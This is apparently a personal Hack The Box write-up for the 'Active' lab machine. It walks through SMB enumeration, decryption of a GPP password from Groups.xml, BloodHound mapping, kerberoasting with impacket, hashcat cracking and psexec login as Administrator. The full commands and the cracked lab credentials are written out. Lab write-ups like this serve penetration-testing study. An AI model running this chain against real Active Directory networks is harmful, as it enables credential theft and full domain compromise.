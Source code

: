 [[Enumeration]][[nmap]]
#Enumeration #nmap
`nmap -sC -sV -oA nmap/active 10.10.10.100`
`-sC for default scripts`
`-sV for enumerate all versions`
`-oA output all formats`
![[Pasted image 20241209204527.png|nmap scan]]
Key things to note:
* DNS open with version 6.1.7601 which means version 7 = Windows 2008 or Windows service pack 1. If it was 9000 range it would be 2012 = Windows 10. 
* If Kerberos is open then look for LDAP and if they're both open, assume you're on Windows AD box.
* domain name = active.htb -> edit `/etc/hosts` to include
![[Pasted image 20241209205206.png]]

#Enumeration 
#nslookup to find the hostname
`nslookup 10.10.10.100`
#dnsrecon
`dnsrecon -d 10.10.10.100 -r 10.0.0.0/8`
#smbclient
`smbclient -L //10.10.10.100`
![[Pasted image 20241209210112.png]]
#enum4linux (outdated)
`enum4linux 10.10.10.100`
#smbmap
`smbmap -H 10.10.10.100`
![[Pasted image 20241209210439.png]]
List the contents of the Replication share using smbmap
`smbmap -R Replication -H 10.10.10.100`
Discover groups.xml file 
![[Pasted image 20241209211157.png]]
Download groups.xml using smbmap
`smbmap -R Replication -H 10.10.10.100 -A Groups.xml -q`
Run 
`locate Groups.xml`
to see the location smbmap has stored the file. 
![[Pasted image 20241210181609.png]]
#credentialaccess
Run `less` against the file to grab an encrypted password
![[Pasted image 20241210181744.png]]
Use `gpp-decrypt` to decrypt the password
![[Pasted image 20241210181946.png]]
This #gpp tool is within Kali's repo. 

Alternate method to get these credentials using #smbclient 
`smbclient //10.10.10.100/Replication`
`mget *`
`recurse ON`
`prompt OFF`
`mget *`
All files will get downloaded
`find . -type f`
Notice group policy file
![[Pasted image 20241210183104.png]]
Install #impacket
Run `GetADUsers.py -all  -dc-ip 10.10.10.100 active.htb/svc_tgs`
Enter password found for svc_tgs
Result
![[Pasted image 20241210183649.png]]
Look for more network shares
`smbmap -d active.htb -u svc_tgs -p GPPStillStandingStrong2k18 -H 10.10.10.100`
![[Pasted image 20241210184144.png]]
Cannot psexec because user is not an admin.

Switch to Windows box to use these credentials

Open command prompt and run 
`runas /netonly /user:active.htb\svc_tgs`
![[Pasted image 20241210184728.png]]
Confirm access with
`dir \\10.10.10.100\Users`

After initial access is gained, copy #Bloodhound over. 

![[Pasted image 20241210185013.png]]
`python -m SimpleHTPPServer`

Just open web browser on Windows box and navigate to IP address of linux box over port 80 to download #sharphound.exe

Run `Sharphound.exe`
`.\Sharphound.exe -c all -d active.htb --domaincontroller 10.10.10.100`
This fails. 
Troubleshooting steps:
1. Test connection to ldap `Test-Connection -ComputerName 10.10.10.100 -Port 389`
2. Run Sharphound again with Wireshark open
3. Set DNS server to 10.10.10.100   in IP Properties ![[Pasted image 20241210185923.png]]
Sharphound results:
![[Pasted image 20241210190158.png]]
Switching back to Kali box to view the contents of Bloodhound. 

Start #neo4j

`neo4j start`

`cd Bloodhound-linux-x64`

`./Bloodhound`

![[Pasted image 20241210190538.png]]

Refresh screen by pressing f5

Drag and drop BloodHound.zip file into the BloodHound window. 

Searching through BloodHound

![[Pasted image 20241210190809.png]]

Look at common queries. 

Search "Find Shortest Paths to Domain Admin"

![[Pasted image 20241210190914.png]]
Search "Shortest Paths from Kerberoastable Users"

Discover the user "Administrator" is kerberoastable. 

This means we can run #impacket again using #GetUserSPNs .py

Run `GetUserSPNs.py -request -dc-ip 10.10.10.100 active.htb/svc_tgs`
Enter password for svc_tgs. 

Successful #kerberoasting

![[Pasted image 20241210191620.png]]
Search for which mode of #hashcat to use on hashcat.net search: example hashes to crack admin password. 

we have krb5tgs. 

Save hash to a file. 

Use #hashcat for #passwordcracking 

`hashcat -m 13100 hashes/active.htb /opt/wordlist/rockyou.txt 
`
Retrieve admin password from this crack. 

`TicketMaster1968`

Finally use admin password with #psexec to get root.txt

`psexec.py active.htb/Administrator@10.10.10.100`

